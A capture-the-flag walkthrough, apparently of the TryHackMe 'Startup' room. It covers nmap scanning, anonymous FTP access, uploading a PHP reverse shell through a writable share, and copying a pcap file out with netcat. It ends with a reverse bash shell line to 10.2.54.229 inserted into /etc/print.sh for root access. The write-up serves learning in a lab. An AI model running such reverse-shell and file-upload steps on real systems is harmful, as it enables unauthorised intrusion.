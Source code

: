 # Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 \(usually for FTP\) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on http://10.10.201.52/files/, means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

![netcat shell](../../.gitbook/assets/image%20%2810%29.png)

Using netcat, we can send and recieve information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.

![output of recipe.txt](../../.gitbook/assets/screenshot-2021-03-07-162434.png)

I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

![](../../.gitbook/assets/image%20%2811%29.png)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet. 

![](../../.gitbook/assets/screenshot-2021-03-07-165106.png)

From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

![SSH connection](../../.gitbook/assets/image%20%289%29.png)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.

![user.txt file](../../.gitbook/assets/screenshot-2021-03-07-165659.png)

Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat.



